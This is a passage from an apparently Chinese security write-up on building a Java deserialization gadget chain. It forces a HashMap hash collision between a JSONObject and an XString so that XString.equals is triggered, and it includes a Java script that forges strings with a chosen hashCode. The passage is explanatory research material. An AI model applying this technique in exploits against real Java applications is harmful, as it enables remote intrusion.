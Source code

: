   
所以我们需要让两次的 tab[i]  
 的 i 值一样，这样第二次判断时不为 null 就会调用我们需要的 equals 方法（k 参数就是上一次的 key），而这个 i 值看到主要是由 hash 决定，n 值都一样。  
  
  
朔源 hash 值，看到是根据 hash(key) 得来的，  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXdcPr3pV446KYZpyVbc4XLWVvqLOdEjKjIIiadI3xzR7gznRwEeKBibHQ/640?wx_fmt=png&from=appmsg "")  
  
  
这里的两次 hashmap 键值对为下面，不难想象如果 tab[i]  
 不为空后最后会调用 xs.equals(jsonObject)  
，  
  
```
hashMap.put(jsonObject ,jsonObject);  hashMap.put(xs,xs);  
```  
  
这里 XString 的 hash 值计算还有个特点，会把其参数强制转换为 string 类型来进行 hash 计算，上面是 XString("x")  
 所以最后会计算 hash(x)  
，现在最主要的是怎么让其 hash 值相等，这里就可以用到下面这个 hash 爆破脚本  
  
```
package org.example;  import static java.util.Objects.hash;  public class HashCollision {      public static String convert(String str) {          str = (str == null ? "" : str);          String tmp;          StringBuffer sb = new StringBuffer(1000);          char c;          int i, j;          sb.setLength(0);          for (i = 0; i < str.length(); i++) {              c = str.charAt(i);              sb.append("\\u");              j = (c >>> 8); // 取出高8位              tmp = Integer.toHexString(j);              if (tmp.length() == 1)                  sb.append("0");              sb.append(tmp);              j = (c & 0xFF); // 取出低8位              tmp = Integer.toHexString(j);              if (tmp.length() == 1)                  sb.append("0");              sb.append(tmp);          }          return (new String(sb));      }      public static String string2Unicode(String string) {          StringBuffer unicode = new StringBuffer();          for (int i = 0; i < string.length(); i++) {              // 取出每一个字符              char c = string.charAt(i);              // 转换为unicode              unicode.append("\\u" + Integer.toHexString(c));          }          return unicode.toString();      }      /**       * Returns a string with a hash equal to the argument.     *     * @return string with a hash equal to the argument.       * @author - Joseph Darcy       */    public static String unhash(int target) {          StringBuilder answer = new StringBuilder();          if (target < 0) {              // String with hash of Integer.MIN_VALUE, 0x80000000              answer.append("\u0915\u0009\u001e\u000c\u0002");              if (target == Integer.MIN_VALUE)                  return answer.toString();              // Find target without sign bit set              target = target & Integer.MAX_VALUE;          }          unhash0(answer, target);          return answer.toString();      }      /**       *     * @author - Joseph Darcy       */    private static void unhash0(StringBuilder partial, int target) {          int div = target / 31;          int rem = target % 31;          if (div <= Character.MAX_VALUE) {              if (div != 0)                  partial.append((char) div);              partial.append((char) rem);          } else {              unhash0(partial, div);              partial.append((char) rem);          }      }      public static void main(String[] args) {          System.out.println(convert(unhash(1681595766)));          System.out.println("\ucae6\u0015\u0019\u0001".hashCode());      }  }
```  
  
这个脚本是计算 key.hashcode()，调试看到 jsonObject.hashcode()  
 的值为 10  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicMpPD36Actic82CdxrXpCBwXGktT28VeWbMoESZ9dmDsDWAaCmiacafWABL4qpnbSFMOWFBuCJUNyLQ/640?wx_fmt=png&from=appmsg "")  
  